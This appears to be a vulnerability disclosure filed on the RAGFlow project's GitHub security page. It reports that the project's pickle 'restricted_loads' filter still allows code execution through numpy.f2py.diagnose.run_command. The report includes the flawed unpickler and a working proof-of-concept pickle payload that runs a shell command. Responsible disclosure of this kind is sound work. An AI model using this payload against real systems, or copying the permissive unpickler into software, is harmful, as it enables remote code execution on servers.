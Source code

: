 # Security Policy

## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| <=0.7.0   | :white_check_mark: |

## Reporting a Vulnerability

### Branch name

main

### Actual behavior

The restricted_loads function at [api/utils/__init__.py#L215](https://github.com/infiniflow/ragflow/blob/main/api/utils/__init__.py#L215) is still vulnerable leading via code execution.
The main reson is that numpy module has a numpy.f2py.diagnose.run_command function directly execute commands, but the restricted_loads function allows users import functions in module numpy.


### Steps to reproduce


**ragflow_patch.py**

```py
import builtins
import io
import pickle

safe_module = {
    'numpy',
    'rag_flow'
}


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        import importlib
        if module.split('.')[0] in safe_module:
            _module = importlib.import_module(module)
            return getattr(_module, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))


def restricted_loads(src):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(src)).load()
```
Then, **PoC.py**
```py
import pickle
from ragflow_patch import restricted_loads
class Exploit:
     def __reduce__(self):
         import numpy.f2py.diagnose
         return numpy.f2py.diagnose.run_command, ('whoami', )

Payload=pickle.dumps(Exploit())
restricted_loads(Payload)
```
**Result**
![image](https://github.com/infiniflow/ragflow/assets/85293841/8e5ed255-2e84-466c-bce4-776f7e4401e8)


### Additional information

#### How to prevent?
Strictly filter the module and name before calling with getattr function.
